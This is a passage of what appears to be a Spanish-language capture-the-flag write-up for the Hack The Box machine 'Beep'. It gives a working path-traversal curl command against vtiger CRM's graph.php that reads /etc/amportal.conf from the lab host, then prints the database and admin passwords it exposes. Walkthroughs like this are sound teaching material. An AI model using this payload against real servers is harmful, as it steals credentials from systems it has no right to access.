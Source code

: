 Por la ruta del *LFI*, veo que el servicio dispone de CRM Vtiger.

El cual es otro panel de autenticación.

![vtiger](/assets/htb/beep/vtiger.png)

> Gracias a Dark Reader aún no estoy ciego...

Lo siguiente, será ver que contiene el archivo de configuración del *LFI*.

```
root@kali:/# # curl -k 'https://10.10.10.7//vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action'
```

El archivo es muy grande, por lo que solo mostraré las credenciales del principio.

```
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
```

La contraseña **jEhdIekWmdjE** es válida para ambos paneles de autenticación, pero eso lo dejare para más adelante.

<a name="enumeracion-10000-tcp"></a>
## Puerto 10000/TCP

